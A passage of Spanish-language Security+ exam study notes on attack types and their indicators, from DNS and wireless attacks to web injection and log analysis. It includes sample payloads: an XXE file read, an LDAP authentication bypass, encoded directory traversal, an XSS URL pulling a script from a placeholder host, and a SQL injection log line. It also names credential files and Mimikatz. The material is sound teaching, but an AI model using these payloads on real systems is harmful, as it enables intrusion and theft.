| `CLDAP` (LDAP sin conexión) | ~70x |
| `Memcached` | ~51,000x |

> **👉 Enfoque de Examen SY0-701:**
> **DRDoS** ≠ DDoS normal: la clave diferenciadora es la **suplantación de IP** y el uso de **terceros inocentes** para rebotar el tráfico. Amplificación = respuesta mucho mayor que solicitud original. Pregunta tipo: *"¿Qué ataque explota que DNS responde con más datos de los que recibe?"* → **Amplificación DNS**. Mitigación de DDoS: load balancing, clustering, firewalls con estado.

## Ataques En Ruta (On-Path / AitM)

> **Analogía:** El cartero intercepta tu carta, la lee (y quizás la modifica), y luego la entrega al destinatario. Ninguno de los dos sabe que fue interceptada.

- **On-path attack** = también conocido como **AitM** (Adversario en el Medio)
- El atacante se posiciona entre dos hosts y retransmite transparentemente la comunicación

### ARP Poisoning (Envenenamiento de ARP)

- **ARP** (Protocolo de Resolución de Direcciones): mapea IP → MAC en red local (Layer 2)
- **Vulnerabilidad:** ARP no tiene mecanismo de seguridad — cualquier respuesta ARP es aceptada

```
Ataque:
1. Atacante difunde respuestas ARP gratuitas no solicitadas
2. Declara tener la IP de la puerta de enlace (router)
3. Los hosts actualizan su caché ARP con la MAC del atacante
4. Todo el tráfico hacia/desde Internet pasa por el atacante

Indicador en Wireshark:
- Múltiples respuestas ARP gratuitas desde la misma MAC con diferentes IPs
- Tramas retransmitidas (coloreadas en negro/rojo en Wireshark)
```

- Herramienta de ataque típica: **Ettercap**
- Objetivo habitual: **la puerta de enlace predeterminada** (default gateway)

> **👉 Enfoque de Examen SY0-701:**
> On-path = Man-in-the-Middle (MitM) = AitM — todos se refieren a lo mismo. La diferencia entre **pasivo** (solo escucha) y **activo** (modifica tráfico). ARP Poisoning opera en **Layer 2** (enlace de datos). El indicador en capturas de red son las **respuestas ARP gratuitas masivas**. Mitigación: DAI (Dynamic ARP Inspection) en switches gestionados.

## Ataques al DNS

### Tipos de Ataques DNS

| Tipo | Mecanismo | Indicador |
|------|-----------|-----------|
| **Typosquatting** | Dominios con errores tipográficos | URL similar a legítima (gooogle.com) |
| **DNS DoS** | Saturar servicio DNS público | Servicio web inaccesible |
| **Secuestro de servidor DNS** | Insertar registros falsos en servidor DNS público | Redirecciones a sitios maliciosos |
| **Envenenamiento ARP + DNS** | On-path en LAN responde consultas DNS falsas | Tráfico redirigido a IPs maliciosas |
| **DHCP malicioso** | Configura clientes con resolvedor DNS del atacante | Resolución DNS redirigida |
| **Envenenamiento caché cliente** | Modificar archivo `HOSTS` | Entradas sospechosas en `/etc/hosts` o `%SystemRoot%\System32\Drivers\etc\hosts` |
| **Envenenamiento caché servidor** | Corromper registros en caché del servidor DNS | `nslookup` / `dig` revelan registros falsos |

### Envenenamiento de Caché: Cliente vs. Servidor

| Ataque | Objetivo | Cómo |
|--------|----------|------|
| **Cliente** | Archivo HOSTS local | Requiere acceso de administrador al host |
| **Servidor** | Caché del servidor DNS | DoS al DNS autoritativo + consultas recursivas maliciosas |

### DNS como Canal C2

- DNS es vector popular para **C2 de RATs** y **exfiltración de datos** — difícil de bloquear porque el tráfico DNS básico siempre está permitido

> **👉 Enfoque de Examen SY0-701:**
> La diferencia entre **pharming** (redirect DNS) y **phishing** (engaño al usuario): pharming no requiere que el usuario haga clic en nada malicioso. El archivo HOSTS tiene **prioridad sobre DNS** — si un malware lo modifica, la víctima no puede detectar el redireccionamiento mirando solo el DNS. Herramientas de diagnóstico: `nslookup`, `dig`.

## Ataques Inalámbricos

### Rogue Access Point y Evil Twin

| Tipo | Descripción | Indicador |
|------|-------------|-----------|
| **Rogue AP** (Punto de Acceso No Autorizado) | AP instalado sin autorización (puede ser accidental) | MAC desconocida, SSID no registrado |
| **Evil Twin** | AP falso que imita al legítimo | Mismo SSID, BSSID (MAC) diferente, autenticación abierta |

- **SSID** (Identificador de Conjunto de Servicios): nombre de la red WiFi
- **BSSID** (SSID Básico): dirección MAC del radio del AP
- Técnicas de camuflaje: **typosquatting** de SSID, **SSID stripping**

### DoS Inalámbrico

- Interferencia de radio (intencional o accidental)
- **Ataque de disociación (Deauth):** envía tramas de gestión falsificadas
  - La norma 802.11 no cifra las tramas de gestión (corregido en 802.11w)
  - Variante: desconecta un cliente específico; otra variante: desconecta todos los clientes

### Replay y Recuperación de Claves

| Ataque | Objetivo | Mecanismo |
|--------|----------|-----------|
| **Captura de handshake** | Hash del proceso de autenticación | Fuerza bruta off-line del hash capturado |
| **KRACK** (Key Reinstallation Attack) | Protocolo de enlace de 4 vías WPA/WPA2 | Replay del mensaje 3 del handshake |

> **⚠️ KRACK:** Afecta tanto WPA como WPA2, independientemente del modo (Personal o Enterprise). Requiere parches en clientes Y puntos de acceso.

> **👉 Enfoque de Examen SY0-701:**
> Evil twin vs. Rogue AP: Evil twin **imita** una red legítima; Rogue AP es simplemente **no autorizado** (puede ser inocente). Deauth attack explota la falta de cifrado en tramas de gestión 802.11 — indicador: múltiples clientes se desconectan simultáneamente. KRACK es específico de WPA/WPA2 y el handshake de 4 vías.

## Ataques de Contraseña

### Clasificación por Modalidad



### Tipos de Ataques de Contraseña

| Tipo | Descripción | Efectivo contra |
|------|-------------|-----------------|
| **Fuerza bruta** | Prueba todas las combinaciones posibles | Contraseñas cortas |
| **Diccionario** | Genera hashes de palabras de un diccionario | Contraseñas comunes simples |
| **Híbrido** | Diccionario + variaciones (prefijos/sufijos) | Contraseñas como `james1`, `Password123` |
| **Password Spraying** | Pocas contraseñas comunes → muchos usuarios | Evita bloqueos por cuenta; escala horizontal |

### Archivos de credenciales objetivo (Windows)

- `%SystemRoot%\System32\config\SAM` — hashes locales
- `%SystemRoot%\NTDS\NTDS.DIT` — Active Directory
- `/etc/shadow` — Linux

> **👉 Enfoque de Examen SY0-701:**
> **Password Spraying** vs. Fuerza Bruta: spraying usa pocas contraseñas en muchas cuentas (evita bloqueos); fuerza bruta usa muchas contraseñas en una cuenta. Pregunta tipo: *"Un atacante prueba 'Password1' contra 1000 cuentas — ¿qué ataque es?"* → **Password Spraying**. SAM es local; NTDS.DIT es el Active Directory. Restricciones de login pueden crear **DoS** — distractor en preguntas sobre mitigación.

## Ataques de Reproducción de Credenciales (Credential Replay)

> **Analogía:** No necesitas saber la contraseña del banco si tienes una copia de la llave. Pass-the-Hash es exactamente eso — usas el hash en lugar de la contraseña original.

### LSASS y Caché de Credenciales

- **LSASS** (Servicio de Subsistema de Autoridad de Seguridad Local): almacena en caché secretos de autenticación
- **SAM** (Administrador de Cuentas de Seguridad): BD de registro con credenciales locales

**Qué almacena LSASS:**

| Secreto | Uso |
|---------|-----|
| **TGT de Kerberos** + clave de sesión | Solicitar tickets de servicio |
| **Tickets de servicio** | Acceso a aplicaciones ya autenticadas |
| **Hash NT** | Formato de almacenamiento de credenciales para NTLM y Kerberos |

### Ataques por Tipo

| Ataque | Objetivo | Mecanismo |
|--------|----------|-----------|
| **Pass-the-Hash (PtH)** | Hash NT | Usar hash directamente en servicios con NTLM (SMB, RDP) |
| **Pass-the-Ticket (PtT)** | TGT/Ticket de servicio | Inyectar ticket robado en sesión activa |
| **Golden Ticket** | TGT falsificado | Acceso sin restricciones a TODOS los recursos del dominio |
| **Silver Ticket** | Ticket de servicio falsificado | Acceso a servicios específicos sin pasar por KDC |
| **DCSync** | Replicar BD del DC | Engañar al DC para que replique credenciales al host atacante |

### Proceso Pass-the-Hash

```
1. Víctima inicia sesión → DC verifica via Kerberos
2. Credenciales Kerberos se cachean en LSASS
3. Atacante extrae memoria LSASS (herramienta: Mimikatz)
4. Atacante usa hash NT en otro host para autenticarse
```

> **👉 Enfoque de Examen SY0-701:**
> **Golden Ticket** = acceso total al dominio (falsifica TGT); **Silver Ticket** = acceso a servicio específico (falsifica ticket de servicio). Mitigación principal: deshabilitar NTLM legacy, usar **Credential Guard**, mantener hosts actualizados. DCSync es frecuente en preguntas de exfiltración de credenciales a escala de dominio.

## Ataques Criptográficos

### Ataque de Degradación (Downgrade)

> **Analogía:** Forzas a alguien a comunicarse en un idioma más fácil de escuchar y entender, aunque normalmente hablarían en clave.

- Fuerza al cliente/servidor a usar versiones más débiles de protocolos (`SSL` vs `TLS 1.3`)
- Habilita el uso de suites de cifrado débiles
- Facilita falsificar firmas de CA (Autoridad Certificadora)

**Kerberoasting:**
- Tipo especial de ataque de degradación contra AD
- Obtiene tickets de servicio y los somete a fuerza bruta
- Si el ticket usa `AES` → muy difícil; si se fuerza a usar `RC4` → vulnerable

### Ataque de Colisión

- **Colisión:** dos textos diferentes producen el mismo hash
- Explota funciones hash débiles (MD5, SHA-1)

```
Proceso del ataque:
1. Atacante crea documento_malicioso y documento_benigno con mismo hash
2. Víctima firma documento_benigno
3. Atacante transfiere firma a documento_malicioso
→ Resultado: malware firmado por la víctima
```

### Ataque de Cumpleaños (Birthday Attack)

- Explotación de la **paradoja del cumpleaños** para encontrar colisiones mediante fuerza bruta
- Si N personas están en un grupo, ¿qué probabilidad hay de que 2 compartan cumpleaños?
  - Solo 23 personas → >50% probabilidad
- Para hash de 128 bits: solo necesitas 2^64 variaciones (no 2^128) para >50% de colisión

> **👉 Enfoque de Examen SY0-701:**
> Downgrade attack + HTTPS = forzar a SSL/TLS débil. **Kerberoasting** es específico de Kerberos y Active Directory. Colisión vs. Birthday attack: colisión es la vulnerabilidad; birthday attack es la *técnica* para explotarla por fuerza bruta. Mitigación: usar `SHA-256` o superior (resiste ataques de cumpleaños a escala práctica actual).

## Indicadores de Código Malicioso

| Actividad | Descripción | IoC asociado |
|-----------|-------------|-------------|
| **Shellcode** | Payload compacto para explotar vulnerabilidad OS/app | Conexión de red post-explotación para descargar más herramientas |
| **Volcado de credenciales** | Acceso a `SAM`, sniffing de `lsass.exe`, DCSync | Acceso a archivos de credenciales, proceso lsass siendo leído |
| **Pivoting / Movimiento lateral** | PsExec, PowerShell remoto, conexiones SMB anómalas | Comportamiento de cuenta anómalo, conexiones inter-host inusuales |
| **Persistencia** | Claves Run en registro, tareas programadas, suscripciones WMI | Nuevas claves Run, tareas programadas no reconocidas |

# 3. Indicadores de Ataques a Aplicaciones

## Ataques a las Aplicaciones

### Contextos de Ataque

| Contexto | Objetivo | Resultado |
|----------|----------|-----------|
| **Host local** | OS + apps de terceros mediante troyanos, exploits de navegador | Punto de apoyo en red local |
| **Aplicación web** | Sitio web / app web | Control de host web, robo de datos, pivoting |

### Escalada de Privilegios

> **Analogía vertical:** Eres empleado y encuentras una puerta trasera que te da acceso al despacho del CEO.
> **Analogía horizontal:** Eres empleado en ventas y consigues acceso a los archivos de otro empleado de RRHH.

| Tipo | Descripción | Ejemplo |
|------|-------------|---------|
| **Vertical** | Accede a funcionalidad/datos de nivel superior | Admin local → SYSTEM |
| **Horizontal** | Accede a datos de otro usuario del mismo nivel | Usuario A → datos de Usuario B |

- **Ejecución de código arbitrario** = el atacante ejecuta su propio código en el sistema
- **RCE** (Ejecución Remota de Código) = cuando el código se transmite desde otra máquina

### Buffer Overflow (Desbordamiento de Búfer)

```
[Búfer normal]
| datos válidos | | | | | | |
                  ^tope del búfer

[Buffer overflow]
| datos válidos | OVERFLOW→ | dirección de retorno sobrescrita |
                              ^atacante coloca su dirección de código
```

- **Stack overflow** = desbordamiento de la pila → sobrescribe dirección de retorno
- Mitigaciones del OS:
  - **ASLR** (Aleatorización del Diseño del Espacio de Direcciones)
  - **DEP** (Prevención de Ejecución de Datos)
- Indicador: **bloqueos frecuentes del proceso**

> **👉 Enfoque de Examen SY0-701:**
> ASLR y DEP son las dos mitigaciones principales para buffer overflow. Escalada vertical (admin → SYSTEM) vs. horizontal (User A → User B data) es una distinción directa de examen. RCE = arbitrary code execution a través de la red.

## Ataques de Reproducción de Sesión (Session Replay)

> **Analogía:** Alguien copia tu tarjeta de acceso al gimnasio y la usa para entrar como si fuera tú, aunque no sepa tu nombre ni pin.

- **HTTP** es sin estado → las **cookies** preservan el estado de sesión
- **Token de sesión:** identifica y autentica al usuario entre peticiones
- **Session replay attack:** captura el token → lo reutiliza para suplantar la sesión

### Cómo se roban las cookies/tokens

| Método | Descripción |
|--------|-------------|
| **On-path / Sniffing** | Intercepción en redes no cifradas (hotspot WiFi público) |
| **Malware** | Código malicioso en el host captura cookies del navegador |
| **XSS** (Cross-Site Scripting) | Script malicioso en browser roba cookies de sesión |

### Session Prediction

- Si el token de sesión es **predecible** (no generado con algoritmo seguro), el atacante puede anticipar valores futuros
- Mitigación: tokens aleatorios, expiración de sesiones, re-autenticación periódica

> **👉 Enfoque de Examen SY0-701:**
> Session hijacking = usar token robado. Session prediction = adivinar token futuro. XSS es el vector más frecuente para robo de cookies en preguntas de examen. BeEF (Browser Exploitation Framework) es herramienta mencionada en este contexto.


## Ataques de Falsificación (Forgery)

### CSRF vs SSRF

| Característica | **CSRF** (Falsificación de Solicitud Entre Sitios) | **SSRF** (Falsificación de Solicitud del Lado del Servidor) |
|---------------|---------------------------------------------------|-------------------------------------------------------------|
| **Quién ejecuta** | El **navegador del cliente** | El **servidor** |
| **Privilegios** | Los del usuario/cliente | Los del servidor (mayor privilegio) |
| **Requisito** | Víctima debe estar autenticada en sitio objetivo | Acceso al servidor front-end |
| **Objetivo típico** | Cambiar contraseña, datos de cuenta | Servidores internos, bases de datos, infraestructura cloud |
| **También llamado** | "Confused deputy attack" | — |

### CSRF — Flujo del Ataque

```
1. Alice inicia sesión en banco.com (cookie de sesión válida)
2. Mallory envía a Alice enlace malicioso (email, mensaje)
3. Alice hace clic mientras sigue autenticada
4. El enlace realiza petición HTTP maliciosa a banco.com
   (cambiar email de recuperación, transferir fondos)
5. banco.com acepta la petición porque la cookie es válida
```

### SSRF — Flujo del Ataque

```
1. Mallory no puede acceder directamente a DB interna
2. Mallory envía solicitud maliciosa al servidor front-end público
3. El servidor web realiza la solicitud interna (actúa como proxy)
4. Servidor DB acepta porque la petición parece venir del servidor web
5. Mallory obtiene datos internos
```

> **👉 Enfoque de Examen SY0-701:**
> CSRF requiere que la víctima esté **autenticada y haga clic** (o se cargue automáticamente). SSRF no requiere usuario — el atacante manipula el servidor directamente. SSRF es especialmente peligroso en **arquitecturas cloud** con múltiples capas internas. Mitigación CSRF: tokens CSRF en formularios, verificación del encabezado Origin/Referer.

## Ataques por Inyección

> **Analogía:** Le dices al bibliotecario "dame el libro de Juan" y él solo debería traer ese libro. Un ataque de inyección sería decirle "dame el libro de Juan; y ya que estás, ELIMINA todos los demás libros".

### Inyección XML / XXE (Entidad Externa XML)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY bar SYSTEM "file:///etc/config"> ]>
<bar>&bar;</bar>
```
→ El servidor devuelve el contenido de `/etc/config` en la respuesta

### Inyección LDAP

- **LDAP** (Protocolo Ligero de Acceso a Directorios): consulta BD de directorio de red
- Filtros LDAP: pares `(atributo=valor)` con operadores `&` (AND) y `|` (OR)

```
Consulta normal: (&(username=Bob)(password=Pa$$w0rd))
→ Ambos parámetros deben ser TRUE

Inyección: Bob)(&))
Consulta resultante: (&(username=Bob)(&))
→ La condición (&) es siempre TRUE → bypasea verificación de contraseña
```

### Tipos de Ataques de Inyección (Resumen)

| Tipo | Vector | Objetivo |
|------|--------|----------|
| **SQL Injection** | Formularios web / parámetros URL | Base de datos |
| **XML / XXE** | Parsers XML | Archivos locales, SSRF |
| **LDAP Injection** | Formularios de autenticación | Directorio de red (AD) |
| **XSS persistente** | Campos de entrada almacenados | Navegador de otros usuarios |
| **Command Injection** | Parámetros que pasan al shell | Ejecución de comandos OS |
| **Directory Traversal** | Parámetros de ruta | Sistema de archivos del servidor |

> **👉 Enfoque de Examen SY0-701:**
> XXE = inyección XML que lee archivos locales o genera SSRF. LDAP injection = bypass de autenticación en directorios. Todos los ataques de inyección comparten la raíz: **falta de validación y sanitización de entrada**. La mitigación universal es **validar y sanear la entrada del usuario** (input sanitization).

## Directory Traversal e Inyección de Comandos

### Directory Traversal (Salto de Directorio)

> **Analogía:** Pides al servidor la página `about.html`, pero en la URL envías `../../../etc/passwd` para acceder a archivos fuera del directorio web.

- El atacante navega con `../` para salir del directorio raíz del servidor web
- **Ataque de canonicalización:** codifica `../` como `%2e%2e%2f` para evadir filtros

```
Ataque directo (filtrado):
http://victim.foo/?show=../../../../etc/config
→ Filtro rechaza ../

Ataque codificado (bypasea filtro):
http://victim.foo/?show=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/config
→ Mismo efecto, evade el filtro de string
```

### Command Injection (Inyección de Comandos)

- El atacante hace que el servidor ejecute **comandos de shell del OS**
- Explota servidores web mal configurados o con excesivos privilegios
- Servidor debería ejecutar con privilegios de usuario "invitado" (muy restringidos)

> **👉 Enfoque de Examen SY0-701:**
> Directory traversal = acceder a archivos fuera del directorio web. Command injection = ejecutar comandos OS en el servidor. Ambos explotan **falta de validación de entrada** + **privilegios excesivos del proceso web**. Canonicalización es la técnica de ofuscación de `../` → `%2e%2e%2f`.


## Análisis de URL

### Componentes de una URL con parámetros

```
http://trusted.foo/upload.php?post=%3Cscript%3D%27http%3A%2F%2Fzyxcba.foo%2Frat%2Ejs%27%3E%3C/script%3E
│      │           │           │
│      │           │           └─ Parámetro codificado (payload XSS ofuscado)
│      │           └─── Recurso + Consulta (?post=)
│      └───────────── Dominio legítimo (con script vulnerable)
└────────────────────── Protocolo
```

### Métodos HTTP Principales

| Método | Función |
|--------|---------|
| `GET` | Recuperar un recurso |
| `POST` | Enviar datos al servidor para procesamiento |
| `PUT` | Crear o reemplazar un recurso |

### Codificación de Porcentaje (Percent Encoding)

- Carácter → representación `%XX` (valor hex ASCII)
- Uso legítimo: enviar caracteres especiales o Unicode en URL
- **Uso malicioso:** ofuscar ataques para evadir filtros de seguridad

| Carácter | Codificado |
|----------|-----------|
| `.` | `%2e` |
| `/` | `%2f` |
| `<` | `%3c` |
| `>` | `%3e` |
| `"` | `%22` |
| `;` | `%3b` |

> **👉 Enfoque de Examen SY0-701:**
> Reconocer codificación porcentual en una URL es una habilidad clave para escenarios de análisis de logs. `%2e%2e%2f` = `../` (directory traversal). `%3cscript%3e` = `<script>` (XSS). Los parámetros en URL están delimitados por `?` y separados por `&`. Análisis de URL + Web Server Logs son los dos vectores de detección primarios para ataques de aplicaciones.

## Registros de Servidor Web

### Códigos HTTP como Indicadores

| Rango | Tipo | Indicador de Seguridad |
|-------|------|------------------------|
| `2xx` | Éxito | Normal |
| `3xx` | Redirección | Puede indicar redirección maliciosa |
| `4xx` | Error cliente | `403` repetidos = intentos de acceso no autorizado |
| `5xx` | Error servidor | `500` = possible explotación; `502` = upstream caído o bloqueado |

### Indicadores en Logs de Servidor Web

- **Múltiples 404** desde la misma IP → **escaneo con Nikto** u otra herramienta de reconocimiento
- **403 repetidos** → intento de acceso a recursos restringidos
- **Cadenas `../` o `%2e%2e`** en URLs → directory traversal
- **Parámetros con `<script>`** o `%3c` → intento XSS
- **Solicitudes POST/PUT inusuales** a endpoints sensibles → posible inyección

```
Ejemplo de log sospechoso:
203.0.113.66 - - [08/Jun/2026:20:00:01] "GET /admin/../../../etc/passwd HTTP/1.1" 404 -
203.0.113.66 - - [08/Jun/2026:20:00:02] "GET /?id=1' OR '1'='1 HTTP/1.1" 500 -
```

> **👉 Enfoque de Examen SY0-701:**
> Los logs de servidor web son la fuente primaria de IoC para ataques a aplicaciones. Múltiples 404 seguidos de un 200 pueden indicar reconocimiento exitoso. Un pico de 500 puede indicar inyección exitosa o exploits activos. CompTIA presenta escenarios donde debes identificar el ataque basado en patrones de códigos de respuesta HTTP.

# 4. Glosario

| Acrónimo | Significado |
|----------|-------------|
| **A-V** | Antivirus |
| **AitM** | Adversary in the Middle (Adversario en el Medio) |
| **APT** | Advanced Persistent Threat (Amenaza Persistente Avanzada) |
| **ARP** | Address Resolution Protocol (Protocolo de Resolución de Direcciones) |
| **ASLR** | Address Space Layout Randomization (Aleatorización del Diseño del Espacio de Direcciones) |
| **AVT** | Advanced Volatile Threat (Amenaza Volátil Avanzada) |
| **BSSID** | Basic Service Set Identifier (dirección MAC del radio del AP) |
| **C2 / C&C** | Command and Control (Comando y Control) |
| **CLDAP** | Connectionless LDAP (LDAP sin conexión) |
| **CSRF / XSRF** | Cross-Site Request Forgery (Falsificación de Solicitud Entre Sitios) |
| **DCSync** | Domain Controller Synchronization attack |
| **DEP** | Data Execution Prevention (Prevención de Ejecución de Datos) |
| **DDoS** | Distributed Denial of Service (Denegación de Servicio Distribuido) |
| **DLP** | Data Loss Prevention (Prevención de Pérdida de Datos) |
| **DNS** | Domain Name System (Sistema de Nombres de Dominio) |
| **DRDoS** | Distributed Reflected DoS (DoS Distribuido Reflejado) |
| **IoA** | Indicator of Attack (Indicador de Ataque) |
| **IoC** | Indicator of Compromise (Indicador de Compromiso) |
| **KRACK** | Key Reinstallation Attack |
| **LDAP** | Lightweight Directory Access Protocol (Protocolo Ligero de Acceso a Directorios) |
| **LOC** | Low Observable Characteristics (Características de Baja Observabilidad) |
| **LOTL** | Living Off the Land |
| **LSASS** | Local Security Authority Subsystem Service |
| **NFC** | Near Field Communication (Comunicación de Campo Cercano) |
| **NTP** | Network Time Protocol (Protocolo de Tiempo de Red) |
| **PtH** | Pass-the-Hash |
| **PtT** | Pass-the-Ticket |
| **PUP / PUA** | Potentially Unwanted Program / Application |
| **RAT** | Remote Access Trojan / Remote Administration Tool |
| **RCE** | Remote Code Execution (Ejecución Remota de Código) |
| **RFID** | Radio Frequency Identification (Identificación por Frecuencia de Radio) |
| **SAM** | Security Accounts Manager |
| **SSID** | Service Set Identifier |
| **SSRF** | Server-Side Request Forgery (Falsificación de Solicitud del Lado del Servidor) |
| **TGT** | Ticket Granting Ticket (Kerberos) |
| **TTP** | Tactics, Techniques, and Procedures |
| **UAC** | User Account Control (Control de Cuentas de Usuario) |
| **WMI** | Windows Management Instrumentation |
| **XSS** | Cross-Site Scripting |
| **XXE** | XML External Entity (Entidad Externa XML) |


# 5. Ataques y Sus Indicadores

| Ataque | Indicador Principal | Capa OSI |
|--------|---------------------|----------|
| Virus / Troyano | Proceso inesperado, archivos modificados, consumo CPU | Host |
| Fileless / LOTL | PowerShell/WMI inusual, sin archivos en disco | Host |
| Rootkit | Herramientas del SO no muestran proceso, logs limpios | Host (Ring 0) |
| Ransomware cripto | Archivos inaccesibles, extensiones cambiadas, nota de rescate | Host |
| Cryptojacking | CPU alta continua sin carga visible | Host |
| DDoS volumétrico | Pico de tráfico masivo sin causa legítima | Red (L3/L4) |
| SYN Flood | Tabla de estados llena, servidor no responde | Red (L4) |
| DRDoS | Tráfico SYN/ACK masivo desde múltiples terceros | Red (L3/L4) |
| ARP Poisoning | Respuestas ARP gratuitas masivas, caché ARP duplicada | Red (L2) |
| DNS Poisoning | Registros DNS incorrectos (nslookup/dig), entradas HOSTS sospechosas | Aplicación (L7) |
| Evil Twin | Mismo SSID, BSSID diferente, autenticación abierta | WiFi |
| Deauth Attack | Múltiples desconexiones WiFi simultáneas | WiFi |
| Password Spray | Pocos intentos fallidos distribuidos en muchas cuentas | Aplicación |
| Pass-the-Hash | Acceso autenticado sin contraseña conocida, NTLM | Red / Host |
| Golden Ticket | Acceso irrestricto a todos los recursos AD | Red |
| CSRF | Acción no autorizada en sesión activa | Aplicación (L7) |
| SSRF | Servidor realiza peticiones internas no autorizadas | Aplicación (L7) |
| XSS | Script en navegador, cookies robadas | Aplicación (L7) |
| SQL/LDAP Injection | Errores DB, datos inesperados devueltos, bypass de auth | Aplicación (L7) |
| Directory Traversal | `../` o `%2e%2e%2f` en URLs de logs | Aplicación (L7) |
| Buffer Overflow | Crashes frecuentes del proceso | Host |
